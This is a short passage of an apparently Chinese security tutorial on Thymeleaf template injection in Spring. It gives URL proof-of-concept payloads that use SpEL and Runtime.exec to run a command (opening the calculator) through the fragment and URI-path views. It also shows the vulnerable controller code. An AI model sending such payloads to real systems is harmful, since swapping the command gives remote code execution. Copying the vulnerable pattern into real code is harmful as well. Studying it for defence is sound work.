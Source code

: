 ```title="PoC"
/fragment?section=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()%7d__::.x
```

!!! tips
    没有 `::.x` 也能触发执行

![alt text](img/5.png)

### URI path

```java title="漏洞代码"
@GetMapping("/doc/{document}")
public void getDocument(@PathVariable String document) {
    log.info("Retrieving " + document);
    //returns void, so view name is taken from URI
}
```

```title="PoC"
/doc/__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22).getInputStream()).next()%7d__::.x
```

![alt text](img/6.png)
